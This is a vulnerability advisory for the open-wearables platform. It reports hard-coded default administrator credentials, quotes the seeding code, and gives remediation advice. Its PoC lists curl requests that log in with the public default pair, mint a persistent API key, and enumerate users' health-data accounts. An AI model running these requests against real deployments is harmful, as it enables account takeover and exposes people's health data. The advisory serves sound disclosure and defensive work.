

# Documented Default Administrator Credentials Lead to Unauthenticated Platform Takeover in open-wearables

| Field | Value |
|---|---|
| Project | [the-momentum/open-wearables](https://github.com/the-momentum/open-wearables) |
| Vulnerability Type | Use of Hard-coded / Default Credentials (CWE-798, CWE-1392) |
| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| Affected Versions | <= 0.9.0 (latest release) and current master @ `e69efd1` (verified) |
| Authentication | None (the credentials are public in the repository and its documentation) |

---

## Summary

open-wearables seeds an administrator account with the hard-coded credentials `admin@admin.com` / `your-secure-password` on every fresh deployment. The credentials are printed verbatim in the project's own `README.md` and shipped as uncommented defaults in `backend/config/.env.example`, and the startup script creates the account automatically whenever the `developer` table is empty — with no randomization, no production-mode refusal, and no forced first-login password change. Any deployment that followed the quick-start or one-click templates (Railway, Docker Compose) and did not manually change the password is fully taken over by a single unauthenticated login request: the developer model has no roles, so the account can enumerate and delete developers, mint persistent API keys, and access every end user's health-data records.

## Details

`backend/app/config.py:103-105` defines the defaults:

```python
admin_email: str = "admin@admin.com"
admin_password: SecretStr = SecretStr("your-secure-password")
```

`backend/scripts/start/app.sh` runs `backend/scripts/init/seed_admin.py` on every startup, which creates the account from those settings whenever no developer exists:

```python
if developer_service.crud.exists_any(db):
    print("A developer account already exists, skipping admin seed.")
    return
developer_service.register(db, DeveloperCreate(email=email, password=password))
```

The same credentials are published by the project itself — `README.md` (quick-start credentials), `backend/config/.env.example:73-74` (`ADMIN_EMAIL=admin@admin.com` / `ADMIN_PASSWORD=your-secure-password`, uncommented), and the documentation pages (quickstart, Railway deployment guide, developer portal). Nothing in the authentication chain forces a change: `POST /api/v1/auth/login` (`backend/app/api/routes/v1/auth.py:16`) returns a bearer token directly on success, with no expired-password state and no check rejecting the default value. The platform has no role model (`developers.py` self-documents "Developers have no roles"), so this single account is the platform administrator: it can list and delete developer accounts, create API keys, forge SDK tokens for arbitrary users, and read every user's health-data connections.

## PoC

**Real-environment reproduction** (open-wearables master @ `e69efd1` built and deployed locally for this test; fresh state, `developer` table empty — the server log at first boot contains `Created default admin developer: admin@admin.com`):

```bash
# 1. Log in with the publicly documented credentials (no prior knowledge beyond the repo)
curl -X POST http://TARGET:8000/api/v1/auth/login \
  -d 'username=admin@admin.com&password=your-secure-password'
# -> HTTP 200 {"access_token":"eyJ...","token_type":"bearer",...}

# 2. Full developer visibility (admin account model)
curl http://TARGET:8000/api/v1/developers -H "Authorization: Bearer $TOKEN"
# -> HTTP 200 [{"id":"cf9f4ea0-...","email":"admin@admin.com",...}]

# 3. Mint a persistent credential the attacker keeps even after the password is rotated
curl -X POST http://TARGET:8000/api/v1/developer/api-keys \
  -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" \
  -d '{"name":"attacker-persisted-key"}'
# -> HTTP 201 {"key":"sk-1fc0672834ad955e74f01362e41f8b83","key_prefix":"sk-1fc0672",...}

# 4. Enumerate end-user health-data accounts
curl http://TARGET:8000/api/v1/users -H "Authorization: Bearer $TOKEN"
# -> HTTP 200 {"items":[...],"total":...}
```

One unauthenticated request with publicly documented values yields the administrator session; the API-key mint demonstrates persistent compromise that survives a later password change.



---

## Impact

- **Single-request platform takeover** of every deployment that did not manually change `ADMIN_PASSWORD` after a quick-start / template / Railway deployment — the population includes demo environments, CI-spun instances, and non-technical self-hosters, exactly the audiences the one-click docs target.
- **Bulk exposure of sensitive health data** — the administrator can access and manage every end user's provider connections (Strava, Oura, Garmin, Whoop, and other wearables), a regulated data category.
- **Persistence** — the attacker mints API keys that remain valid after the default password is finally changed; `DELETE /api/v1/developers/{id}` has no ownership check, so existing operators can also be locked out.

### Remediation

1. Refuse to start (or refuse to seed) with `ADMIN_PASSWORD` unset or equal to the documented default outside a local/dev environment; generate a random initial password, print it once to the operator's console, and require a change at first login.
2. Make the seed opt-in (`SEED_DEFAULT_ADMIN=true`) instead of automatic, and add a server-side check that rejects the known default credential pair at authentication time.
3. Purge the literal credentials from `README.md`, `.env.example`, and the deployment guides; template files should use empty values with placeholders, and deployment integrations (Railway template, Docker Compose) should generate a random value at install time.
4. Detect and notify: log a prominent warning and emit an audit event whenever a login with the default pair succeeds, so operators of already-exposed instances can respond.
